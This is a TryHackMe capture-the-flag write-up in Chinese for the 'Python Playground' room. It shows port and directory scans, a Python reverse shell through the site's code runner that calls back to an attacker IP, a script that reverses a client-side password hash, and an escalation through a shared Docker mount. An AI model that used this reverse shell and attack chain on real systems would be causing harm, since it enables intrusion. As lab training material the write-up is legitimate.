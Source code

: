 ```yaml
---
sidebar_position: 177
tags: [Medium, Linux, 密码学, docker]
title: "Python Playground"
description: "Python Playground"
sidebar_label: "Python Playground"
slug: /tryhackme/177
---
```


# Python Playground

## 端口扫描

```bash
root@ip-10-10-149-250:~/pythonplayground# nmap -sTCV -p- --min-rate 1000 10.10.250.38

Starting Nmap 7.60 ( https://nmap.org ) at 2023-11-06 15:02 GMT
Nmap scan report for ip-10-10-250-38.eu-west-1.compute.internal (10.10.250.38)
Host is up (0.0036s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (EdDSA)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
MAC Address: 02:A4:72:EB:8E:AD (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.04 seconds
```

## 80

```bash
root@ip-10-10-149-250:~/pythonplayground# gobuster dir -u http://10.10.250.38/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.250.38/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,txt
[+] Timeout:        10s
===============================================================
2023/11/06 15:11:25 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.html (Status: 200)
/signup.html (Status: 200)
/admin.html (Status: 200)
===============================================================
2023/11/06 15:16:50 Finished
===============================================================
```

访问主页面内容, 这是一个 SSTI 的靶机, 接着查看登陆和注册页面我发现已经不允许登陆, 之后访问 `admin.html` 页面, 我发现其中是基于前端校验的, 从下面的代码可以看出如果密码正确其应该等于这个 hash 值, 同时当我们登陆成功重定向到另一个页面, 估计这里就是 SSTI 的位置了

![image-20240709204556431](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204557.png)

![image-20240709204605321](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204606.png)

从上面可以看出这是一个 python 框, 可以执行命令 , 

![image-20240709204613543](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204614.png)

## 后渗透

### root(docker)

从上面来看可以借此来获取一个 Shell

```python
socket = __import__("socket")
subprocess = __import__("subprocess")
os = __import__("os")
pty = __import__("pty")

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.99.12",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/bash")
```

![image-20240709204634599](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204635.png)

### root(docker) —> connor(172.17.0.1)

在之前获取到 `admin.html` 页面是前端校验, 在哪里获取到一个 hash 值, 因此可以尝试将其逆向, 得到原文来进行 connor 用户登陆

```python
hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"

#Strings to Integer Array
def rev_int_to_str(temp):
    strs = []
    for i in temp:
       strs.append(ord(i)-97)
    return strs
#Integer Array to strings
def rev_str_to_int(temp):
    strs = ""
    for i in range(0,len(temp)-1,2):
       temp2 = 0
       temp2 = int(temp[i]*26)
       temp2 += int(temp[i+1])
       strs += chr(temp2)
    return strs

password = rev_str_to_int(rev_int_to_str(rev_str_to_int(rev_int_to_str(hash))))
print(password)

# spaghetti1245
```

![image-20240709204649744](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204651.png)

### connor(172.17.0.1) —> root(172.17.0.1)

查看进程信息可以发现 docker 环境是 root 用户启动的

![image-20240709204702183](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204703.png)

基于此可以尝试查看挂载信息, 发现

```bash
(remote) root@playgroundweb:/# mount
/dev/xvda2 on /mnt/log type ext4 (rw,relatime,data=ordered)
/dev/xvda2 on /etc/resolv.conf type ext4 (rw,relatime,data=ordered)
/dev/xvda2 on /etc/hostname type ext4 (rw,relatime,data=ordered)
/dev/xvda2 on /etc/hosts type ext4 (rw,relatime,data=ordered)
```

通过查看我发现这个目录是共享目录因此可以利用此来进行提权

![image-20240709204708586](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204709.png)

![image-20240709204712267](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204713.png)